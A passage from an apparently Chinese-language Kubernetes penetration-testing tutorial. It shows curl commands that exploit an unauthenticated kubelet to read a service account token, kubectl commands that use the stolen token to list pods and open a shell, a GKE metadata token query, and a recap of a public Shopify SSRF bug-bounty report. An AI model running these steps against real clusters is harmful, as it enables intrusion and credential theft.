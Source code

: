 如上红色标记部分显示，可以看到serviceaccount的挂载目录，接着执行

    curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=ls -la /var/run/secrets/kubernetes.io/serviceaccount"

获得输入如下：

    total 4
    drwxrwxrwt3 root root   140  Nov  9 16:27 .
    drwxr-xr-x3 root root   4.0K Nov  9 16:27 ..
    lrwxrwxrwx1 root root   13   Nov  9 16:27 ca.crt -> ..data/ca.crt
    lrwxrwxrwx1 root root   16   Nov  9 16:27 namespace -> ..data/namespace
    lrwxrwxrwx1 root root   12   Nov  9 16:27 token -> ..data/token

查看token:

    curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

结果如下：

    eyJhbGciOiJSUzI1NiI---SNIP---

在安装好 kubectl 后，利用获取的证书 `ca.crt` 和 `token`，对kubernetes API server进行访问

    kubectl --server=https://1.2.3.4 --certificate-authority=ca.crt --token=eyJhbGciOiJSUzI1NiI---SNIP--- get pods --all-namespaces


根据返回的pods信息，指定pod获取执行shell的权限

    kubectl exec -it metrics-server-v0.2.1-7f8ee58c8f-ab13f --namespace=kube-system--server=https://1.2.3.4  --certificate-authority=ca.crt --token=eyJhbGciOiJSUzI1NiI---SNIP--- /bin/sh


### 4.4 GKE的认证获取

GKE 和 AWS 之类的云平台会在本地提供元数据服务供开发者获得自己私有仓库的认证信息，如在 GKE 的机器上执行

    curl http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token

国外hackerone漏洞赏金平台公开了一份关于Shopify的漏洞报告，通过利用Shopify Exchange的屏幕截图功能中的服务器端请求伪造错误，获取对集群中任意容器的root访问权限。
漏洞利用的关键过程如下：

**访问Google Cloud Metadata**

1. 创建商店（partners.shopify.com）
1. 编辑模板password.liquid并添加以下内容：
 
    	<script>
    		http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
    	</script>
1. 转到`https://exchange.shopify.com/create-a-listing` 并安装Exchange应用程序
1. 等待商店屏幕截图显示在“创建列表”页面上
1. 下载PNG并使用图像编辑软件打开它或将其转换为JPEG


由于元数据隐藏未启动，造成 `kube-env`属性可以被调用。返回了Kubelet的证书及密钥，调用kubectl可以实现对pod的查询

    $ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████ get pods --all-namespaces
    